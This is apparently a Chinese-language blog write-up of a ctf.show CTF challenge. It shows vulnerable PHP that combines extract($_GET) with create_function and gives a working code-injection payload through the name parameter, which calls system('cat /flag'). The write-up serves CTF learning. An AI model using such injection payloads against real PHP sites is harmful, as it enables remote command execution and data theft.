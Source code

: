 ```yaml
---
title: "限时活动  红包挑战8"
date: 2024-03-05
draft: false
author: "Goby"
tags: ["ctf.show"]
---
```


 源代码：

```php
<?php

// 在页面中显示当前文件的源代码
highlight_file(__FILE__);

// 关闭错误报告，将错误级别设置为0，即不报告任何错误
error_reporting(0);

// 从GET请求中提取变量，并将其作为变量名和值进行设置
extract($_GET);

// 创建一个匿名函数并执行，函数名为$name，函数体为经过Base64编码的$value
create_function($name, base64_encode($value))();
```

$name是参数，value是要执行的命令，但是base64编译过了，执行不了。

value构造不了，那就只能通过name参数构造payload

payload：?value=Jay17&name=){}system("cat /flag");/*

拿到flag

![](/ctf.show/4122/1.webp)


